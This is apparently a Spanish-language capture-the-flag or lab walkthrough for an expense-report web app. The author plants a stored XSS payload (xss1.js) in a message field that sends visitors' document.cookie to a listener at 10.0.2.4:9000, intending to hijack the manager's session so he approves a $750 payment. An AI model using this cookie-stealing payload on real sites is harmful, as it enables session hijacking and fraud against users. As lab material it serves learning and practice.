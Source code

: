 Aqui en la pagina ya logeados como Samuel (nosotros)
Vemos dentro de expense reports que debemos enviar la solicitud de pago de 750. Entonces la enviamos con el boton verde.

![](img/expenses6.png)

Una vez subido, significa que hemos hecho la solicitud para que nos paguen los $750, pero no significa que nos han pagado.

Viendo mi perfil me doy cuenta que nuestro manager es Mannon Riviere y buscando en la pagina de /admin/admin.php podemos ver que su usuario es ``mriviere``. Seguro que el es el que nos tiene que aceptar el pago de $750.

Ahora lo que tenemos que hacer es buscar la manera de obtener las cookies de session. Para esto en Home, vemos que podemos escribir un mensaje.

![](img/expenses7.png)

Creamos el script xss1.js
```
❯ cat xss1.js 
var request = new XMLHttpRequest();
request.open('GET', 'http://10.0.2.4:9000/?cookies=' + document.cookie);
request.send();
```
Montamos el servidor con python y nos llegan un monton de cookies de diferentes cuentas. Asi que por ultimo iremos a ver cual cookie es la de Mannon Riviere
